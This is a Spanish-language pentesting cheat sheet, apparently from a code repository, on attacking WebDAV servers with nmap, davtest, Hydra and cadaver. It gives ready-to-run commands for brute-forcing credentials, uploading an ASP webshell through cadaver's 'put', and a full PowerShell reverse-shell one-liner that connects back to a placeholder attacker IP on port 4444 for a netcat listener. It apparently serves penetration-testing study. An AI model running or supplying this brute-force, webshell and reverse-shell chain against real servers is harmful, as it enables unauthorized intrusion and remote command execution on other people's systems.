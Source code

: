 # WebDAV: Acceso y Descarga de Archivos con davtest

## 1. ¿Qué es WebDAV?

- WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que permite la gestión colaborativa de archivos en servidores web.
- Permite crear, mover, copiar, eliminar archivos y directorios remotamente.
- Comúnmente está habilitado en servidores IIS, Apache, y otros.

---

## 2. Cómo conseguir acceso a WebDAV

### a) Enumerar servidores con WebDAV activo

- Busca servidores HTTP con WebDAV habilitado (puerto 80 o 443).
- Usa `nmap` con scripts NSE:

```bash
nmap -p 80,443 --script http-webdav-scan <IP_objetivo>
```

### b) Probar acceso anónimo

- Algunos servidores permiten acceso sin autenticación o con credenciales por defecto.
- Prueba con clientes WebDAV o herramientas como `davtest`.

### c) Probar credenciales

- Usa herramientas para fuerza bruta o listas de credenciales si hay autenticación.

---

## 3. Uso de davtest para evaluar WebDAV

`davtest` es una herramienta para probar servidores WebDAV en búsqueda de métodos permitidos y posibles vulnerabilidades.

### a) Escaneo básico

```bash
davtest -url http://<IP_objetivo>/
```


Esto prueba métodos HTTP como PROPFIND, PUT, DELETE, MOVE, LOCK, etc.

### b) Probar subida de archivos (PUT)

Si el servidor permite el método PUT, puedes intentar subir archivos:

```bash
davtest -url http://<IP_objetivo>/ -upload
```

### c) Descarga de archivos

Si el servidor tiene archivos disponibles, puedes descargarlos con `curl`, `wget` o directamente con un navegador.

Ejemplo con `curl`:

```bash
curl -O http://<IP_objetivo>/ruta/al/archivo.txt
```

---

## 4. Fuerza Bruta en WebDAV con Hydra

Puedes usar `hydra` para probar combinaciones de usuarios y contraseñas contra un servidor WebDAV protegido con autenticación básica.

```bash
hydra -L users.txt -P passwords.txt <IP_objetivo> http-get /path -s 80 -V
```

- `-L users.txt`: archivo con lista de usuarios
- `-P passwords.txt`: archivo con lista de contraseñas
- `<IP_objetivo>`: IP o dominio del servidor WebDAV
- `http-get /path`: especifica el método HTTP y ruta para la autenticación (ajusta `/path` a la ruta WebDAV)
- `-s 80`: puerto (cámbialo si usas HTTPS o puerto distinto)
- `-V`: modo verbose para ver intentos en pantalla

### Ejemplo concreto:

```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-get /webdav/ -s 80 -V
```

Este comando intentará acceder a `http://192.168.1.100/webdav/` con usuarios y contraseñas listados, mostrando resultados en pantalla.

---
### Conectarse con credenciales:
````
davtest -auth user:password -url http://dominio/path
````

## 5. Uso de Cadaver para interactuar con WebDAV desde la terminal

`cadaver` es un cliente WebDAV en consola que permite navegar y manipular recursos WebDAV de forma interactiva.

### a) Conectar al servidor WebDAV

```bash
cadaver http://<IP_objetivo>/<ruta_webdav>
```

Ejemplo:

```bash
cadaver http://192.168.1.100/webdav/
```

### b) Comandos básicos dentro de Cadaver

- `ls` — Listar archivos y carpetas.
- `cd <directorio>` — Cambiar de directorio.
- `get <archivo>` — Descargar un archivo localmente.
- `put <archivo>` — Subir un archivo desde tu máquina.
- `rm <archivo>` — Eliminar un archivo remoto.
- `mkdir <directorio>` — Crear un directorio remoto.
- `exit` — Salir de la sesión.

### c) Ejemplo de sesión

```bash
$ cadaver http://192.168.1.100/webdav/
dav:/webdav/> ls
archivo1.txt  carpeta1/
dav:/webdav/> cd carpeta1
dav:/webdav/carpeta1/> get archivo2.txt
dav:/webdav/carpeta1/> exit
```
Después de entrar con cadaver podemos lanzar una shell a la web, haciendo:

````
put /usr/share/webshells/asp/webshell.asp
````
Después entramos al navegador de donde esta WebDav y ya podemos ejecutar comandos entrando con las credenciales claro.
---

Si quieres tener sesion nc mete en la webshell:
````
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('TU_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
````
`y abre el netcat escuchando 
## 6. Pasos para descargar archivos con davtest, cadaver y herramientas complementarias

1. Ejecuta `davtest` para identificar métodos habilitados.
2. Si hay acceso anónimo o con credenciales válidas, navega por las rutas públicas o sube archivos para pruebas.
3. Usa herramientas como `curl`, `wget` o clientes WebDAV como `cadaver` para descargar archivos descubiertos.



